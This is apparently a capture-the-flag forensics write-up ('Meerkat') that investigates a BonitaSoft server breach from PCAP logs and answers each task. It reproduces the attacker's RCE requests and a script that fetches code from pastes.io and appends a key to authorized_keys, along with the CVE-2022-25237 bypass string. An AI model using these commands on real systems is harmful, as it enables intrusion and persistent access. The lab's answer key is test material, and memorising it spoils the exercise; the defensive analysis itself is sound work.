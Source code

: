# Meerkat

### Scenario
As a fast growing startup, Forela have been utilising a business management platform. Unfortunately our documentation is scarce and our administrators aren't the most security aware. As our new security provider we'd like you to take a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

### Analysis

* Filtering the packages based on `http`.
* From this, we can get that some portal of Bonita `http://forela.co.uk:8080/bonita/portal/homepage`  is used.
* Searching online about `bonita` we get the `Business Management Platform server`.

**Task 1: We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?**
> BonitaSoft

* From the logs, we can see multiple requests are made to `http://forela.co.uk:8080/bonita/loginservice`
* Multiple username and passwords are used to check the credential

**Task 2: We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?**
> Credential Stuffing

* Going the through the logs, we can find request made to `POST /bonita/API/pageUpload;i18ntranslation?action=add HTTP/1.1\r\n`
* Searching online about this, we can find a public CVE against BonitaSoft

**Task 3: Does the vulnerability exploited have a CVE assigned - and if so, which one?**
> CVE-2022-25237

**Task 4: Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?**
> i18ntranslation

* Filtering and based on `http.request.method == POST`
* Counting still first successful request, got 56 attempts.


**Task 5: How many combinations of usernames and passwords were used in the credential stuffing attack?**
> 56

* Going through all the checks. we will find the value credentials with successfull response: "username" = "seb.broom@forela.co.uk" and "password" = "g0vernm3nt"

**Task 6: Which username and password combination was successful?**
> seb.broom@forela.co.uk:g0vernm3nt

* Filtering based on the HTTP get requests (`http.request.method==GET`), we get that following requests were made:
 * /bonita/API/extension/rce?p=0&c=1&cmd=whoami
 * /bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8
 * /bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8

**Task 7: If any, which text sharing site did the attacker utilise?**
> pastes.io

* Getting the contents from `paste.io` website,
```
$ curl -k https://pastes.io/raw/bx5gcr0et8
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

**Task 8: Please provide the filename of the public key used by the attacker to gain persistence on our host.**
> hffgra4unv

**Task 9: Can you confirmed the file modified by the attacker to gain persistence?**
> /home/ubuntu/.ssh/authorized_keys

* Searching online about this techinque will give use the MITRE technique ID for it.

**Task 10: Can you confirm the MITRE technique ID of this type of persistence mechanism?**
> T1098.004


